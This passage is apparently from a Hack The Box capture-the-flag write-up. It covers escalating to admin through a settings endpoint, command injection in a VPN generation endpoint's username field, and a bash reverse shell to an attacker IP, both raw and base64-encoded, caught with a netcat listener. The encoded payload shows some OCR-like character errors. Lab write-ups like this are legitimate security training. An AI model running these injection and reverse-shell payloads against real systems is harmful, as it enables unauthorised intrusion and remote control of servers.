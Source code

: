 ![[Pasted image 20250917124623.png]]

Calling `/api/v1/admin/settings/update` accepts our requests but returns errors until properly formatted.

![[Pasted image 20250917124827.png]]

By trial and error, I discover it requires:
- Content-Type: `application/json`
- Parameters: `email` and `is_admin`
	- `is_admin` is a boolean value that only accepts `1` or `0`

When `is_admin` is set to `1`, my account is escalated successfully. This can be confirmed by calling `/api/v1/admin/auth`.

![[Pasted image 20250917125109.png]]

---

### Command injection through VPN generation

Now as admin, the endpoint `/api/v1/admin/vpn/generate` can be tried again and found to work unlike before.

Admin endpoints that generate system artefacts often run via shell commands on the server-side, therefore are often subject to command injection.

By injecting `;id;` in the `username` field, we can confirm code execution as `www-data`.

![[Pasted image 20250917125408.png]]

---

### Reverse shell

From here we can try to establish a reverse shell to the server.

I initially tried using payload `bash -i >& /dev/tcp/10.10.14.147/9443 0>&1;`, however this did not establish a reverse shell. This suggests that there is some filtering or formatting between sending the command and it being run on the server. This can often be avoided via base64 encoding so lets try that.

Lets encoded the reverse shell in Base64 to avoid bad character issues and send this payload.

```json
{
"username":"usernameTmp;echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNDcvOTQOMyAwPiYx I base64 -d I bash;"
}
```

Set up a listener on our machine using netcat. Have the listener running before sending the payload in order to catch it.

```bash
(wxlbr@htb)-[~]$ nc -lvnp 9443
```
